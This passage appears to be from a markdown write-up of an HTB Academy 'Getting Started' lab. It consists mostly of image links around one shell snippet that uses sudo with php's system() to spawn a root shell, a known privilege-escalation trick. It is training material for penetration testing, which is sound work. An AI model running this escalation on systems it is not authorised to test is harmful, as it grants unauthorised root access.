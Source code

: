 ![alt text](../assets/images/HTB_Academy_Getting_Started/image-88.png)

```sh
cd /usr/bin/
CMD="/bin/sh"
sudo /usr/bin/php -r "system('$CMD');"
```

![alt text](../assets/images/HTB_Academy_Getting_Started/image-89.png)

![alt text](../assets/images/HTB_Academy_Getting_Started/image-90.png)
